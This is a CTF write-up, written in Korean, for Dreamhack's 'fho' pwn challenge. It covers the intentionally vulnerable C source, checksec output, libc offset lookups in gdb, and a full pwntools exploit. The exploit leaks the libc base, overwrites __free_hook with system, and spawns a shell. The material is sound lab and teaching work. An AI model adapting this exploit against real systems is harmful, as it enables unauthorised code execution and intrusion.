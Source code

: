 # fho - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 2
- Provided Files: fho.c, fho(ELF), libc-2.27.so
- tools: gdb(pwndbg), checksec, readelf
## Brief Description
Exploit Tech: Hook Overwrite에서 실습하는 문제입니다.
## Initial Analysis
### Environment
``` sh
checksec fho
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```
### Code
``` c
// Name: fho.c
// Compile: gcc -o fho fho.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  char buf[0x30];
  unsigned long long *addr;
  unsigned long long value;

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  puts("[1] Stack buffer overflow");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  puts("[2] Arbitary-Address-Write");
  printf("To write: ");
  scanf("%llu", &addr);
  printf("With: ");
  scanf("%llu", &value);
  printf("[%p] = %llu\n", addr, value);
  *addr = value;

  puts("[3] Arbitrary-Address-Free");
  printf("To free: ");
  scanf("%llu", &addr);
  free(addr);

  return 0;
}
```
## Vulnerability
### BOF(Buffer Overflow) & OOB(Out of Bounds)
``` c
read(0, buf, 0x100); // buf size: 0x30
printf("Buf: %s\n", buf);
```
`buf`의 크기가 0x30인 반면, `read`로 읽어오는 `buf`의 크기는 0x100으로 크게 초과하여 BOF 취약점이 발생한다. 또한 `read` 직후 바로 `printf`로 `buf`의 내용을 %s로 읽어오기 때문에 `buf`를 넘어서는 상위 데이터 leak이 가능하다.  
### Arbitrary Write(임의 주소 쓰기)
``` c
puts("[2] Arbitary-Address-Write");
printf("To write: ");
scanf("%llu", &addr);
printf("With: ");
scanf("%llu", &value);
printf("[%p] = %llu\n", addr, value);
*addr = value;
```
사용자가 임의의 메모리 주소에 원하는 값을 삽입할 수 있다.
### Arbitrary Free(임의 주소 해제)
``` c
puts("[3] Arbitrary-Address-Free");
printf("To free: ");
scanf("%llu", &addr);
free(addr);
```
사용자가 임의의 메모리 주소를 해제할 수 있다.  
### Vulnerability Summary
| Type | Impact |
| --- | --- | 
| BOF & OOB | `buf`를 넘어서 상위 주소의 데이터 leak |
| Arbitrary Write | 임의 주소에 원하는 데이터 삽입 |
| Arbitrary Free | 임의 주소 해제(`free` 호출) |
## Exploit
### Strategy
카나리가 활성화 되어있어 처음부터 BOF 취약점으로 특정 위치에 원하는 값을 삽입하기는 어렵다. 그러나 `buf`를 넘어서는 상위 데이터를 읽어올 수 있으므로 이를 활용하면 `canary`, `main`의 리턴 주소 등을 읽어올 수 있다. 또한 사용자가 원하는 메모리 주소에 값을 삽입하고, 임의 주소를 해제할 수 있다. 그러나 Full RELRO로 인해 `.got`, `.got.plt`에 쓰기 권한이 주어지지 않는다. 이러한 환경을 고려했을 때 `Hook Overwrite` 공격을 시도해 볼 수 있다. `free`의 `__free_hook`이 가리키는 주소를 `system`으로 수정하고, `free`의 인자로 `"/bin/sh"`의 주소를 전달해주면 최종적으로 `system("/bin/sh")`을 호출하게 된다. 공격 흐름은 다음과 같다.  
1. BOF & OOB -> PIE & ASLR 우회를 위해 libc base address leak
2. Arbitrary Write -> `__free_hook`이 가리키는 주소를 `system` 함수의 주소로 수정
3. Arbitrary Free -> `free`의 인자로 `"/bin/sh"`의 주소 전달
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| canary | -x08 |
| dummy | -x10 |
| buf | -0x40 |
### Exploitation Steps
``` sh
$ readelf -sr libc-2.27.so | grep " __free_hook@"
0000003eaef0  00dd00000006 R_X86_64_GLOB_DAT 00000000003ed8e8 __free_hook@@GLIBC_2.2.5 + 0
   221: 00000000003ed8e8     8 OBJECT  WEAK   DEFAULT   35 __free_hook@@GLIBC_2.2.5
```
__free_hook 오프셋 = 0x3ed8e8
``` sh
$ readelf -s libc-2.27.so | grep " system@"
  1403: 000000000004f550    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```
system 함수 오프셋 = 0x4f550
``` sh
$ strings -tx libc-2.27.so | grep "/bin/sh"
 1b3e1a /bin/sh
```
"/bin/sh" 오프셋 = 0x1b3e1a
``` sh
$ gdb ./libc-2.27.so
pwndbg> info functions __libc_start_main
pwndbg> disassemble __libc_start_main
...
0x0000000000021bf0 <+224>:   mov    rax,QWORD PTR [rsp+0x18] ; __libc_start_main은 main 주소를 인자로 받아서 호출하므로, 컴파일러는 main 주소를 레지스터나 스택에 저장해뒀다가 간접 호출
0x0000000000021bf5 <+229>:   call   rax ; main 함수 호출
0x0000000000021bf7 <+231>:   mov    edi,eax
...
```
`main` 함수의 `__libc_start_main`의 리턴 오프셋 = `__libc_start_main` + 231
``` sh
$ gdb ./fho
pwndbg> start
pwndbg> main ; 생략 가능
pwndbg> bt
#0  0x00005555554008be in main ()
#1  0x00007ffff7db4d90 in __libc_start_call_main (main=main@entry=0x5555554008ba <main>, argc=argc@entry=1, argv=argv@entry=0x7fffffffe028) at ../sysdeps/nptl/libc_start_call_main.h:58
#2  0x00007ffff7db4e40 in __libc_start_main_impl (main=0x5555554008ba <main>, argc=1, argv=0x7fffffffe028, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffe018) at ../csu/libc-start.c:392
#3  0x00005555554007da in _start ()
```
``` sh
pwndbg> x/i 0x00007ffff7db4d90
   0x7ffff7db4d90 <__libc_start_call_main+128>: mov    edi,eax
```
이건 바이너리가 돌아가는 로컬의 libc가 libc-2.27.so인 경우 해당 바이너리에서 직접 확인 가능  
나의 로컬은 libc-2.27.so가 아니라서 128로 나온다. (로컬 libc를 변경할 수 있지만, 혹시 문제 생길 것 같아서 포기)
### payload
``` python
from pwn import *

p = remote('host8.dreamhack.games', 22575)
context.arch = "amd64"

e = ELF('./fho')
libc = ELF('x64/libc-2.27.so')

# libc base leak
payload = b''
payload += b'A' * 0x48 # have to cover the canary's NULL-byte 
p.sendafter(b'Buf: ', payload)
p.recvuntil(payload)

libc_start_main_x = u64(p.recvline()[:-1] + b'\x00' * 2)
libc_base = libc_start_main_x - (libc.symbols['__libc_start_main'] + 231)
log.info(f'libc_base1: {libc_base}') # 직접 찾은 libc base
libc_base = libc_start_main_x - libc.libc_start_main_return
log.info(f'libc_base2: {libc_base}') # pwntool로 찾은 libc base
system = libc_base + libc.symbols['system']
free_hook = libc_base + libc.symbols['__free_hook']
binsh = libc_base + next(libc.search(b'/bin/sh'))

# debug
log.info(f'system: {system}')
log.info(f'free_hook: {free_hook}')
log.info(f'binsh: {binsh}')

# __free_hook Overwrite
p.recvuntil('To write: ')
p.sendline(str(free_hook).encode())
p.recvuntil('With: ')
p.sendline(str(system).encode())

# free("/bin/sh") -> call system("/bin/sh")
p.recvuntil('To free: ')
p.sendline(str(binsh).encode())

# interactive
p.interactive()
```

